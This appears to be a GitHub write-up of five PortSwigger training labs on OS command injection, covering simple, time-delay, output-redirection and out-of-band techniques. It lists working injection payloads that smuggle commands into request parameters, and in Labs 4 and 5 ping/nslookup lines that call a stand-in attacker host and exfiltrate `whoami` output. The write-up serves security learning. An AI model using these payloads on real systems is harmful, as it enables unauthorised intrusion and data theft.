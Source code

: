 # OS Command Injection
## Summary
- [Lab1: OS command injection, simple case](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab1-os-command-injection-simple-case)
- [Lab2: Detecting blind OS command injection using `time delays`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab2-detecting-blind-os-command-injection-using-time-delays)
- [Lab3: Blind OS command injection with `output redirection`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab3-blind-os-command-injection-with-output-redirection)
- [Lab4: Blind OS command injection with `out-of-band interaction`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab4-blind-os-command-injection-with-out-of-band-interaction)
- [Lab5: Blind OS command injection with `out-of-band data exfiltration`](https://github.com/Sec0gh/Portswigger-Labs/tree/main/OS%20Command%20Injection%20Labs#lab5-blind-os-command-injection-with-out-of-band-data-exfiltration)

### Lab1: OS command injection, simple case
- At the first, it is a so simple lab, because it is an `in-bind` command injection vulnerability, and we will receive the response of the command in the application when we test any payload of them.
- In the simple case we will use the `commands separators` or `shell metacharacters` in our payloads.
- Commands separators as: `&, &&, |, ||, ;, \n, $()`
- Many command injection attacks need to use the new line `\n` as URL encoding `%0a`.

```
productId=2+%26+whoami+#&storeId=1
productId=1&storeId=3|whoami
productId=1&storeId=1&&whoami
productId=1&storeId=1%26whoami%26
```
- It is important to make a URL encoding for the commands separators to obfuscate them.
- I think it is best to inject spaces to separate command line arguments and also note to convert any space to a `+` sign.

![Lab1_another_payload2.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/Lab1_another_payload2.png)

-----------------------------------------------------------------------
### Lab2: Detecting blind OS command injection using `time delays`
- It is a blind command injection vulnerability, the server doesn't return the response for us when we send our command, and we won't know if it was executed or not.
- So we will use one of the techniques, which is called `trigger a time delay`.
- We will try to delay the response that we will receive to ensure the command is executed on the server by making the server ping on the localhost.
- If we tried to cause the delay in the parameters, we will find the `email` parameter is vulnerable.

```
email=injection%40gmail.com||sleep 10||subject=...
email=injection%40gmail.com||ping -c 10 127.0.0.1||subject=...
email=injection%40gmail.com & ping -c 10 127.0.0.1 #&subject=...
```
- Don't forget to make URL encodeing.

![Lab2.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/Lab2.png)

-----------------------------------------------------------------------
### Lab3: Blind OS command injection with `output redirection`
- At first, we will try to confirm that there is an OS command injection vulnerability in any parameter by using time delays, I think it is the best way to detect and prove it.

![lab3_confirm.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_confirm.png)
- I have seen delays in the response time, so I ensured there is a vulnerability in the `email` parameter.
- We will redirect the results of any commands which we want to do in a text file, and we will access this file to retrieve the content.

![lab3_output_redirection.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_output_redirection.png)
- Now, we want to access this file in the `images` writable directory.
- If you map the application, you will notice the images directory holds all images of the application, and there is a parameter called `filename` that calls the images from the `images` directory.

![lab3_access_file.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/OS%20Command%20Injection%20Labs/images/lab3_access_file.png)

-----------------------------------------------------------------------
### Lab4: Blind OS command injection with `out-of-band interaction`
- In this technique, we will try o make the server interact with any server we can control and monitor in order to make sure that the server has sent the request to our server and executed the injected command which we passed into the web application.
- So we can use `ping` to make any request and interact with the domain of our server, or make `nslookup` for the domain to resolve it to the IP address.
- Then we will monitor whether the requests succeeded or not.

```
parameter=value || ping subdomain.webAttacker.com ||
parameter=value || nslookup subdomain.webAttacker.com ||
```
#### `Note:`
- In `lab4 & lab5`, you will use the `Burp Collaborator client`, but you must have the `Burp Suite professional`.
- But in the real world, you can use any server you can control.

-----------------------------------------------------------------------

### Lab5: Blind OS command injection with `out-of-band data exfiltration`
- In another technique, you can encapsulate your command in the injected command during executing the original command when it connects with our server.
- you will make it by using:
	- Backtick character  **\`encapsulated command\`**.
	- Dollar character **$(encapsulated command)**.

```
parameter=value || ping `whoami`.subdomain.webAttacker.com ||
parameter=value || ping $(whoami).subdomain.webAttacker.com ||
parameter=value || nslookup `whoami`.subdomain.webAttacker.com ||
parameter=value || nslookup $(whoami).subdomain.webAttacker.com ||
``` 
